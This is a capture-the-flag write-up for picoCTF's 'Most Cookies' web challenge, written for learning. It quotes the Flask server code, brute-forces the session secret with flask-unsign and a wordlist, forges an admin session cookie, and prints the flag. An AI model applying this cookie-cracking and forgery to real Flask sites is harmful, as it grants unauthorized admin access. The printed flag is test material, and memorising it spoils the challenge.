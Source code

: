 Most Cookies
===
Challenge Details
---
![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196559439-90168289-f9fc-4154-8969-1f7f11a4b7ce.png)

---
##### <a href="https://play.picoctf.org/practice/challenge/177?category=1&page=2">link to the challenge</a>
---
Solution
---  

after analyzing the[`server.py`](https://github.com/Wise-Cpt/CTF-Writeups/blob/main/Web/picoCTF-Most%20Cookies/server.py)  file. I found these two pieces of code very useful
```
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196553894-69cbe908-0420-4175-92a4-aea8a2f8a676.png)

		flash(message, category)![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196553873-cee0e4ba-adbe-48c9-8deb-e16a8b0cbfef.png)

		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

```
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

```  
-The first one is about the secret key 
-The second one is about the flag

So in order to get the secret key it's clear that we can find it in the list 'cookie_names' in [`server.py`](https://github.com/Wise-Cpt/CTF-Writeups/blob/main/Web/picoCTF-Most%20Cookies/server.py). We can put the words in wordlist to use it later to brute force the secret key.
lets call the python script with `script.py` and the wordlist with `wordlist.txt`
```
words = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

print('\n'.join(words))
```
```
$ python3 script.py > wordlist.txt
```
Well, now we back to the second piece of code we see that if the check == "admin" in the session we get the flag.

lets get the session value from the website (click on inspect then Application>Cookies>session), and decode it with `flask-unsign`
```
$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y05xZQ._dy1eNGOeXsDZmGMww0lIHb_GFY"
```
output will be like this
```
{'very_auth': 'blank'}
```
now it's time to use the wordlist to get the secret key

```
$ flask-unsign --unsign --wordlist cookie_wordlist.txt --server "http://mercury.picoctf.net:65344/"
```
and we get the secret key which is 'fortune'

now lets change the value of 'very_auth' from 'blank to 'admin' 

```
$ flask-unsign --sign --secret 'fortune' --cookie "{'very_auth': 'admin'}"
```
output will be like this
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y09BCg.gyB58CCB-vkh54EuAzrRhDWc7iA
```
now just change the session value of the wbsite with this last one and reload the page you'll get the flag.
#### Flag:
 `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`


